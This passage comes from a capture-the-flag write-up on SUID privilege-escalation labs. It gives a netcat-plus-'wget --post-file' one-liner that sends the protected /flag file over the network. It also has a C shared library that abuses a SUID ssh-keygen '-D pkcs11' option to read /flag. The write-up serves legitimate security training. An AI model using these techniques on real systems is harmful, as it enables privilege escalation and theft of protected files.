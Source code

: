 #### Level49

`as /flag`

#### Level50

`nc -lp 4242 & wget --post-file=/flag http://localhost:4242`

***alternative***
`nc -lp 4242` on the first terminal
`wget --post-file=/flag http://localhost:4242` on the second terminal, then check in the first one for the flag



#### Level51

##### Explanation

From `/challenge/babysuid_level51`:

> Welcome to /challenge/babysuid_level51!
>
> This challenge is part of a series of programs that show you how dangerous it is to **allow users to load their own code as plugins into the program** (but figuring out how is the hard part!).
>
> I just set the SUID bit on /usr/bin/ssh-keygen. Try to use it to read the flag!
>
> IMPORTANT: make sure to run me (/challenge/babysuid_level51) every time that you restart this challenge container to make sure that I set the SUID bit on /usr/bin/ssh-keygen!

<div alt="page-break" class="page-break"></div>

From `man ssh-keygen`: 

> `-D pkcs11`: download the public keys provided by the PKCS#11 shared library pkcs11.  When used in combination with -s, this option indicates that a CA key resides in a PKCS#11 token (see the CERTIFICATES section for details).

The flag `-D pkcs11` can load a **shared library** called `pkcs11`. A shared library is also known as a dynamic linked library.

Now make a `C` code that reads the flag and make it a `dynamic link library`. `dll` are the libraries that are loaded in the runtime of the program execution.

Important: to have your library to be considered a `pkcs11` library, it must contain the `C_GetFunctionList` function

##### Script Execution

**lvl51.c**

```c
#include <stdio.h>
int C_GetFunctionList() {
    FILE *file_ptr;
    char ch;

    file_ptr = fopen("/flag", "r");

    while ((ch = fgetc(file_ptr)) != EOF) {
        printf("%c", ch);
    }

    fclose(file_ptr);
    return 0;
}
```
